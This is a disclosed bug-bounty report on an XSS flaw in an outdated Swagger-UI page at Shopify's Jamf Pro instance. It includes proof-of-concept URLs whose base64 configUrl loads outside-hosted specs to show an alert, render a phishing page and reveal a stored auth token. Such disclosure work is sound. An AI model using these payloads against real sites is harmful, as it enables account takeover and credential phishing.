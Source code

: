 # XSS at jamfpro.shopifycloud.com

## Report Details
- **Report ID**: 1444682
- **URL**: https://hackerone.com/reports/1444682
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-09T21:17:19.949Z
- **Disclosed**: 2023-02-02T20:45:36.248Z

## Reporter
- **Username**: kannthu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
*Description*
There is Jamf Pro running at https://jamfpro.shopifycloud.com/ which has old Swagger-UI exposed at /classicapi/doc/. I think it's possible to take over the Jamf Pro account of the user that clicks the link. (more about that below) 

*Steps to reproduce*

**POC with simple alert box**:
1. Open `https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`
2. You should see an alert box (F1573391)

**POC rendering phishing page**:
1. Click the link: `https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9`
2. You should see a phishing page rendered (F1573392)

**POC of stealing auth token**:
Jamf Pro stores authentication token in localstorage under `authToken` key when you authenticate using login and password, so my assumption is that it will do the same for Saml authentication. (you will have to test that) If it's true then taking over the user's account who clicked the link would be trivial. The POC below will print `authToken` from localstorage.

1. Authenticate to `jamfpro.shopifycloud.com` and click the link: `https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9zdGFuZGluZy1zYWx0LnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`
2. You should see an alert box with auth token. 

## Impact

An attacker can execute arbitrary JS code in the context of https://jamfpro.shopifycloud.com/ - it means he can do whatever authenticated user at https://jamfpro.shopifycloud.com/ could do.

## Impact

An attacker can execute arbitrary JS code in the context of https://jamfpro.shopifycloud.com/ - it means he can do whatever authenticated user at https://jamfpro.shopifycloud.com/ could do.

## Attachments
- Zrzut_ekranu_2022-01-9_o_22.08.24.png
- Zrzut_ekranu_2022-01-9_o_22.08.49.png
